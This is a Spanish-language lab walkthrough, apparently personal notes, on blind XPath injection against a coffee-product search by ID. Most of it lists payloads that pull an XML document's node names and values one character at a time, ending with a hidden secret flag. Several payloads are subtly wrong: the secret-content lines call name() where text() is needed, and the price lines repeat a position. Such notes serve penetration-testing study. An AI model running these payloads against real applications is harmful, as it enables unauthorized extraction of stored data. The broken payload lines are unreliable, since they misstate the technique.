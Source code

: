
Script en python para automatizar:

[XPATHi/autoXPATH.py at main · Hamibubu/XPATHi](https://github.com/Hamibubu/XPATHi/blob/main/autoXPATH.py)``


Como podemos identificarla?
(ENTORNO):
"Estamos dentro de un buscador de productos mediante el id"

Inicio:
Comenzamos interceptando la peticion mediante burpsuite

Primero empezamos con injecciones comunes como SQL Injection
Probamos con injecciones NoSQL

Y al no tener ninguna respuesta probamos con Injecciones XPATH

Nuestro objetivo es sacar todos los campos
Lo primero que debemos de hacer es averiguar cuantas etiquetas existen

En este caso vamos a ir iterando por cada una de la letra que conforman las etiquetas es decir:

tenemos la entiqueta <Coffee> entonces vamos a ir inyectando codigo para ir iterando por cada una de la siguiente manera
		1' and substring(name (/*[1]),1,1)='C  
		< Aqui hacemos referencia a cada letra en este caso la letra C >


Para sacar cada item estoy utilizando  N' and '1'='1
("N" Lo voy cambiando a 1,2,3,4 para ir descubriendo cada item)


TENEMOS ESTA ESTRUCTURA XML(ESTO NO LO PODEMOS VER EN SITUACION REAL)

VAMOS A EXTRAER ETIQUETA RAIZ

Quiero ahora saber el NODO:
🎯 Objetivo: Obtener el nombre completo del primer nodo (Coffees) carácter por carácter

Ya tienes la base:

1' and substring(name(/*[1]),1,1)='C

✅ ¿Cómo descubrir toda la etiqueta letra por letra?

Tienes que incrementar la posición en substring() y comparar contra cada carácter esperado. Por ejemplo:
Letra	Payload
C	1' and substring(name(/*[1]),1,1)='C
o	1' and substring(name(/*[1]),2,1)='o
f	1' and substring(name(/*[1]),3,1)='f
f	1' and substring(name(/*[1]),4,1)='f
e	1' and substring(name(/*[1]),5,1)='e
e	1' and substring(name(/*[1]),6,1)='e
s	1' and substring(name(/*[1]),7,1)='s

-------------------------------------------------------------------
YA SABIENDO LA ETIQUETA RAIZ EXTRAEREMOS LAS ETIQUETAS HIJAS
Ahora quiero saber el nombre de la segunda etiqueta o nodo
Haz lo mismo que antes:
Letra	Payload
C	1' and substring(name(/*[1]/*[1]),1,1)='C
o	1' and substring(name(/*[1]/*[1]),2,1)='o
f	1' and substring(name(/*[1]/*[1]),3,1)='f
f	1' and substring(name(/*[1]/*[1]),4,1)='f
e	1' and substring(name(/*[1]/*[1]),5,1)='e
e	1' and substring(name(/*[1]/*[1]),6,1)='e


YA TENIENDO LA PRIMERA VAMOS AHORA POR LA SEGUND


Una vez que ya sabes que /*[1]/*[1]/*[1] es el nodo <ID>, ahora quieres sacar su contenido (el texto).

Eso se hace con text() así:

✅ Extraer el contenido del campo <ID> carácter por carácter

1' and substring(/*[1]/*[1]/*[1]/text(),1,1)='1'    (AQUI VAMOS PROBANDO HASTA QUE YA NO NOS SALGA NADA)

Este payload pregunta:

    ¿El primer carácter del texto dentro del primer <ID> es '1'?

Si sí, entonces vas al siguiente carácter:

1' and substring(/*[1]/*[1]/*[1]/text(),2,1)='X'  (NO DEVOLVERA NADA PERO HAY QUE PROBAR PARA IR ITERANDO POR CADA UNO)

Pero como el valor de <ID> es solo '1', ya no devolverá nada a partir del segundo carácter.


Ahora existen las sub etiquetas  ya vamos hasta ID
<Coffees>
  <Coffee ID="1">
    <ID>1</ID>             ← /*[1]/*[1]/*[1]
    <Name>Affogato</Name>  ← /*[1]/*[1]/*[2]

Entonces ahora vamos a descubrir si hay sub etiquetas e ir probando:
1' and substring(name(/*[1]/*[1]/*[2]),1,1)='N'
1' and substring(name(/*[1]/*[1]/*[2]),2,1)='a'
1' and substring(name(/*[1]/*[1]/*[2]),3,1)='m'
1' and substring(name(/*[1]/*[1]/*[2]),4,1)='e'

Ahora descubrimos que existe <Name> entonces ahora intentaremos descubrir su contenido de la siguiente manera:
1' and substring(/*[1]/*[1]/*[2]/text(),1,1)='A'
1' and substring(/*[1]/*[1]/*[2]/text(),2,1)='f'
...  -> hasta descubrir su contenido completo en este caso es Affogato

Ahora vamos a descubrir la etiqueta siguiente (RECORDEMOS QUE ESTO NO LO SABEMOS EN UN ENTORNO REAL) en este caso <Desc>
1' and substring(name(/*[1]/*[1]/*[3]),1,1)='D
1' and substring(name(/*[1]/*[1]/*[3]),2,1)='e
1' and substring(name(/*[1]/*[1]/*[3]),3,1)='s
1' and substring(name(/*[1]/*[1]/*[3]),4,1)='c

Ahora vamos a descubrir el contenido de la etiqueta <Desc>
1' and substring(/*[1]/*[1]/*[3]/text(), 1, 1) = 'A' --
1' and substring(/*[1]/*[1]/*[3]/text(), 2, 1) = 'n' --
1' and substring(/*[1]/*[1]/*[3]/text(), 3, 1) = ' ' --
1' and substring(/*[1]/*[1]/*[3]/text(), 4, 1) = 'a' --
1' and substring(/*[1]/*[1]/*[3]/text(), 5, 1) = 'f' --
1' and substring(/*[1]/*[1]/*[3]/text(), 6, 1) = 'f' --
1' and substring(/*[1]/*[1]/*[3]/text(), 7, 1) = 'o' --
1' and substring(/*[1]/*[1]/*[3]/text(), 8, 1) = 'g' --
1' and substring(/*[1]/*[1]/*[3]/text(), 9, 1) = 'a' --
...

y asi hasta descubrir su contenido

Vamos a descubri la siguiente etiqueta <Price> 

1' and substring(name(/*[1]/*[1]/*[4]),1,1)='P
1' and substring(name(/*[1]/*[1]/*[4]),2,1)='r
1' and substring(name(/*[1]/*[1]/*[4]),3,1)='i
1' and substring(name(/*[1]/*[1]/*[4]),4,1)='c
1' and substring(name(/*[1]/*[1]/*[4]),5,1)='e

Ahora su contenido
1' and substring(/*[1]/*[1]/*[4]/text(),1,1)='$
1' and substring(/*[1]/*[1]/*[4]/text(),1,1)='4
1' and substring(/*[1]/*[1]/*[4]/text(),3,1)='.
1' and substring(/*[1]/*[1]/*[4]/text(),4,1)='6
y asi sucesivamente hasta descubrir todo su contenido

Vamos por una flag que esta escondida <Secret>


1' and substring(name(/*[1]/*[1]/*[5]),1,1)='S
1' and substring(name(/*[1]/*[1]/*[5]),2,1)='e
1' and substring(name(/*[1]/*[1]/*[5]),3,1)='c
1' and substring(name(/*[1]/*[1]/*[5]),4,1)='r
1' and substring(name(/*[1]/*[1]/*[5]),5,1)='e
1' and substring(name(/*[1]/*[1]/*[5]),6,1)='t

Ahora su contenido
1' and substring(name(/*[1]/*[1]/*[5]),8,1)='E
1' and substring(name(/*[1]/*[1]/*[5]),9,1)='S
1' and substring(name(/*[1]/*[1]/*[5]),10,1)='T
1' and substring(name(/*[1]/*[1]/*[5]),11,1)='O
1' and substring(name(/*[1]/*[1]/*[5]),12,1)=' '
1' and substring(name(/*[1]/*[1]/*[5]),13,1)='E
1' and substring(name(/*[1]/*[1]/*[5]),14,1)='S
1' and substring(name(/*[1]/*[1]/*[5]),15,1)=' '
1' and substring(name(/*[1]/*[1]/*[5]),16,1)='U
1' and substring(name(/*[1]/*[1]/*[5]),17,1)='N
1' and substring(name(/*[1]/*[1]/*[5]),18,1)=' '
1' and substring(name(/*[1]/*[1]/*[5]),19,1)='M
1' and substring(name(/*[1]/*[1]/*[5]),20,1)='E
1' and substring(name(/*[1]/*[1]/*[5]),21,1)='N
1' and substring(name(/*[1]/*[1]/*[5]),22,1)='S
1' and substring(name(/*[1]/*[1]/*[5]),23,1)='A
1' and substring(name(/*[1]/*[1]/*[5]),24,1)='J
1' and substring(name(/*[1]/*[1]/*[5]),25,1)='E
1' and substring(name(/*[1]/*[1]/*[5]),26,1)=' '
1' and substring(name(/*[1]/*[1]/*[5]),27,1)='S
1' and substring(name(/*[1]/*[1]/*[5]),28,1)='E
1' and substring(name(/*[1]/*[1]/*[5]),29,1)='C
1' and substring(name(/*[1]/*[1]/*[5]),30,1)='R
1' and substring(name(/*[1]/*[1]/*[5]),31,1)='E
1' and substring(name(/*[1]/*[1]/*[5]),32,1)='T




ESTRUCTURA:
<Coffees>
  <Coffee ID="1">
    <ID>1</ID>
    <Name>Affogato</Name>
    <Desc>An affogato...</Desc>
    <Price>$4.69</Price>
    <Secret>eSTO ES UN MENSAJE SECRETO</Secret>
  </Coffee>
  <!-- Otros cafés -->
</Coffees>
